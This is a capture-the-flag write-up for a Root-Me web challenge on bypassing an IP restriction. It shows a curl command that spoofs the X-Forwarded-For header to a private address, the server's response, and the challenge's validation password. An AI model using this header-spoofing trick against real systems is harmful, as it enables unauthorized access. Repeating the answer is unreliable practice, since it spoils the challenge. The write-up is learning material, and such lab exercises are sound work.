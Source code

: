 ## HTTP - IP restriction bypass

### Task

Auth to network with IP restriction bypass and get internall auth.

### Solution

1. Read [RFC](https://repository.root-me.org/RFC/EN%20-%20rfc1918.txt?_gl=1*1idvt10*_ga*MTcxMjY3MjI3Ny4xNjYxNjEwMjA2*_ga_SRYSKX09J7*MTY2MjUwNzQzNC4xOS4xLjE2NjI1MTAxMzAuMC4wLjA.) about best practices of internal IP addresses allocation. Looks like `192.168.0.0` - good choice for some intranet IP.

2. Make **GET** request to resource with changed IP address in request header:

```bash
curl --header "X-Forwarded-For: 192.168.0.0"  http://challenge01.root-me.org/web-serveur/ch68
```

3. Get password from answer

```html
<!DOCTYPE html>
<html>
<head>
	<title>Secured Intranet</title>
</head>
<body><link rel='stylesheet' property='stylesheet' id='s' type='text/css' href='/template/s.css' media='all' /><iframe id='iframe' src='https://www.root-me.org/?page=externe_header'></iframe>
			<h1>Intranet</h1>
		<div>
			Well done, the validation password is: <strong>Ip_$po0Fing
</strong>
		</div>
	</body>
</html>
```

### Answer

Password is `Ip_$po0Fing`
